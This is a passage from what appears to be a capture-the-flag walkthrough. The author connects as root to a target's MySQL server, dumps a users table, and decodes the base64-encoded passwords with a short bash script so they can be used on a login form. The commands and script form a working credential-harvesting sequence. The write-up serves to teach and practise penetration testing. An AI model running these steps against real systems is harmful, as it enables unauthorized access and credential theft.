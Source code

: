 Listing the tables from the database Users.

```console
root@kali:~$ mysql -h 192.168.179.176 -u root -D Users -p
Enter password: 
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.003 sec)
```

Retrieving the records from the table users.

```console
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.004 sec)
```

We save it to a file.

```console
root@kali:~$ cat mysql.users 
kent:Sld6WHVCSkpOeQ== 
mike:U0lmZHNURW42SQ== 
kane:aVN2NVltMkdSbw==
```

I developed a bash script to decode the passwords in base64.

```console
#!/bin/bash

for x in $(cat mysql.users); do
        db64=$(echo $x | cut -d ':' -f 2 | base64 -d)
        echo -e "$x  (\e[1;33m$db64\e[0m)"
done
```

```console
root@kali:~$ bash decoder.sh
kent:Sld6WHVCSkpOeQ==  (JWzXuBJJNy)
mike:U0lmZHNURW42SQ==  (SIfdsTEn6I)
kane:aVN2NVltMkdSbw==  (iSv5Ym2GRo)
```

We log into the login form with any user.
